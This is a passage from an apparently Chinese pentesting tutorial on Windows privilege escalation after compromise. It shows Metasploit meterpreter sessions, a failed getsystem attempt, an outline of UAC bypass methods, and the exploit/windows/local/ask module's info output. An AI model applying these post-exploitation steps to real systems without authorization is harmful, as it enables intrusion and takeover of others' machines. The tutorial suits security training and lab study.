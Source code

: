 输入shell，进入会话，

```
msf5 exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > getuid
Server username: admin-PC\admin
meterpreter > 
```

这里权限是管理员权限。添加用户等操作就不能正常执行。

ps：乱码输入`chcp 65001`解决。

所以我们需要进行权限提升。

## 后渗透之权限提升

* 提高程序运行级别
* UAC绕过
* 利用提权漏洞进行提权

#### 提高程序运行级别

以高权限重启一个反弹时`shellcode` ，会弹出UAC弹框。

msf模块： `exploit/windows/local/ask`

接着前面的进行擦欧总，如果直接输入`getsystem` 会报错。(权限不够)

```
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
```

`background` 退出meterpreter，此时session还在的。

之后加载msf模块，

可查看信息。

```
msf5 exploit(windows/local/ask) > info

       Name: Windows Escalate UAC Execute RunAs
     Module: exploit/windows/local/ask
   Platform: Windows
       Arch: 
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2012-01-03

Provided by:
  mubix <mubix@hak5.org>
  b00stfr3ak

Available targets:
  Id  Name
  --  ----
  0   Windows

Check supported:
  No

```